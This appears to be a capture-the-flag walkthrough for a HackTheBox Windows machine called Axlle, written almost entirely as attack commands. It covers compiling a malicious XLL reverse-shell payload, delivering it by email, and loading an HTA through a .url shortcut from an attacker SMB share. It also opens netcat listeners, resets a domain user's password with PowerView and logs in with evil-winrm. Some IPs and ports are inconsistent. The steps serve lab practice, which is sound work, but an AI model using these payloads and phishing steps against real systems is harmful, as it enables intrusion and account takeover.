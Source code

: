 ### Nmap scan 
```shell
$ nmap -A -oA nmap/tcp 10.10.11.21 -T4
```
Add axlle.htb to the **/etc/hosts** file.

### Getting a foothold

#### Compile the C code called **revershell.c** containing an exploit and a reverse shell on attacker machine

#### Create the .xll file
```shell
x86_64-w64-mingw32-gcc -shared -fPIC -o trustthis.xll reverseshell.c
```

#### Create a reverse shell on the attack box using netcat
```shell
$ nc -nvlp 4444
```

#### Send the malicious trustthis.xll file to the target using this email command
```shell
swaks --from sheltCP1@axlle.htb --to accounts@axlle.htb --body "Hello" --header "Subject: Hello" --attach @trustthis.xll
```
#### Create Internet Shortcut with the filename shortcut.url
```url
URL=file://10.10.14.100/share/exploit.hta
```
#### Create a .hta file on attacker machine, the file is named exploit.hta in the folder of this file

#### Open a listener on port 8888 as described in the exploit.hta file
```shell
$ nc -nvlp 4442
```
#### On the Target Machine 
```shell
$ cd /inetpub/testing
```
#### Run the following command on the target machine
```shell
$ wget http://10.10.14.102:8000/shortcut.url -o shortcut.url
```
#### Open an impacket-smbserver on the folder where the .hta is located
```shell
$ impacket-smbserver -smb2support share .
```
### Priviledge Escalation

#### Download and save this script to your attack box
```url
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```
#### Load the Contents of the Above file to the Target Box
```shell
$ wget http://10.10.14.102:8000/PowerView.ps1 -o PowerView.ps1
```
#### Import the PowerView.ps1 module
```shell
$ import-module .\PowerView.ps1
```
#### Seeting up Credentials for Jacob Greeny
```shell
$ $Password = ConvertTo-SecureString ‘verySecurePassword121!’ -AsPlainText -Force
```
```shell
$ Set-DomainUserPassword -Identity Jacob.Greeny -AccountPassword $Password
```
#### Logging in as Jacob Greeny
```shell
$ evil-winrm -i 10.10.11.21 -u Jacob.Greeny -p verySecurePassword121!
```
#### Create a directory with the Name **Work**
```shell
$ mkdir work
```
```shell
$ cd work
```
#### Create Another Directory Inside the Work Directory and Name it "myTestDir"
```shell
$ mkdir myTestDir
```
#### Create a file in the work directory and name it reboot.rsf
**Type the below content in the reboot.rsf file**
```text
myTestDir
True
```
**You can achieve that by typing this below on the shell**
```shell
echo myTestDir True > reboot.rsf
```

#### Create Another File in the myTestDir and name it "working"
```shell
$ mkdir working # This should be done inside myTestDir
```
```shell
$ cd working
```

### Create an Empty File in the Working Directory and Name it rsf.rsf
```shell
$ echo > rsf.rsf
```
**Remeber**
```shell
$ cd \work\myTestDir\working\
```
### Create a Command.txt File in your Attacking Machine and Share it with the Work Directory on the target machine.
Go to the **command.txt** file in this folder

#### start python http server
#### On the Target Machine run in "work/myTestDir/working" directory
```shell
$ wget http://10.10.14.100:8000/command.txt -o command.txt
```
#### Open a Listener on your attacking machine port you specified in the command.txt file
```shell
$ nc -nvlp 4443
```

### Copy the Content of the Work Directory to C the Local Program File.
```shel
$ cp -r .\work* "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\"
$ cp -r .\work* C:\"Program Files (x86)"\"Windows Kits"\10\Testing\StandaloneTesting\Internal\x64\
```
